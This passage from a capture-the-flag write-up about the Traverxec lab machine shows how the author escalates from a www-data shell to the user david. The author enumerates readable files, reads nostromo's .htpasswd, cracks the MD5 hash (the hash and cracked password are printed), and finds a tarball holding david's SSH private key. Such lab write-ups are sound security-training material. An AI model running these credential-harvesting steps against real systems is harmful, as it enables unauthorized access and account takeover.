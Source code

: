 ## Step 3: Owning david
Using the reverse shell from the last step I enumerate what can I access as
`www-data`.
 
Let's see what files can I access. Only interesting/unusual files are shown
here, otherwise it would fill the page.
<pre>
www-data@traverxec $ find / -type f -readable
...
/var/nostromo/logs/nhttpd.pid
/var/nostromo/conf/mimes
/var/nostromo/conf/.htpasswd
/var/nostromo/conf/nhttpd.conf
/var/nostromo/icons/dir.gif
/var/nostromo/icons/file.gif
/var/nostromo/htdocs/js/main.js
/var/nostromo/htdocs/css/style.css
/var/nostromo/htdocs/empty.html
...
</pre>

First I check `.htpasswd`, which gets me a password hash for david.
<pre>
www-data@traverxec $ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
</pre>

Since this is a weak MD5 hash, I let john the ripper run it through rockyou,
it comes back with `Nowonly4me` as the password. We could try these credentials,
but lets look elsewhere first.

I take a look at `nhttpd.conf` and it contains the following interesting section.
<pre>
www-data@traverxec $ cat /var/nostromo/conf/nhttpd.conf
...
# HOMEDIRS [OPTIONAL]

homedirs            /home
homedirs_public     public_www
...
</pre>

This tells nostromo to serve a directory from each user's home called
`public_www` under `/~username`. Since we know we have a user called `david`
on the box, we open `http://10.10.10.165/~david/` in Firefox, and bingo we
found `david`'s private area. After that we check `/home/david/public_www`
as `find` must have missed it if `/home/david` itself is unreadable.
<pre>
www-data@traverxec $ find /home/david/public_www
/home/david/public_www
/home/david/public_www/index.html
/home/david/public_www/protected-file-area
<span style="color:red">/home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz</span>
/home/david/public_www/protected-file-area/.htaccess
www-data@traverxec $ tar tf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
</pre>
